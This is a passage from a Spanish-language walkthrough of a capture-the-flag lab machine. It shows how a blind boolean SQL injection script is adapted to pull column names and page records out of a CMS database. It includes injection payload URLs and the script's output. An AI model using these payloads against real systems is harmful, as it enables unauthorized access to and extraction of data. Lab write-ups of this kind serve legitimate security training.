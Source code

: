 ### Tweaking the script to get the columns
Vamos a modificar ahora la `BASE_URL` pero ahora consultando [information_schema.columns](https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html) para consultar las columnas de esta tabla.

Podemos igualar `table_schema` a `admin` y `table_name` a `pages` para consultar todas las columnas de `admin.pages`
```python
BASE_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist' or substring((select column_name from information_schema.columns where table_schema = 'admin' and table_name = 'pages' limit <OFFSET>,1),<POSITION>,1)=
```

Vemos las columnas, nos interesa las columnas `pagename` y `pagedata`
```console
python3 sqli.py
[*] Target is vulnerable
[.......\] 0 Database name: id
[ ] 1 Database name: pagename
[\] 2 Database name: pagedata
[▆] 3 Database name
[*] OK
```

### Tweaking the script to get the relevant information
Por lo cual podemos modificar otra vez `BASE_URL` pero ahora haciendo la consulta directamente a `admin.pages` para poder recuperar los registros que se encuentren en la base de datos.
```python
BASE_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist' or substring((select pagename from admin.pages limit <OFFSET>,1),<POSITION>,1)='<REPLACE>"
```

No nos interesa `pagedata` ya que resulta que es el contenido del sitio web, por lo cual directamente teniendo el `pagename` podemos visualizarlo en el navegador.

Si ejecutamos el script, vemos un sitio que no habíamos visto antes, `tutorialsincomplete`
```console
python3 sqli.py
[*] Target is vulnerable
[↙] 0 Database name: disavowlist
[▖] 1 Database name: home
[└] 2 Database name: tutorialsincomplete
[◥] 3 Database name: upload
[ ] 4 Database name
[*] OK
```

Sin embargo no se nos muestra nada por el navegador.
![Write-up Image](images/Screenshot_20.png)
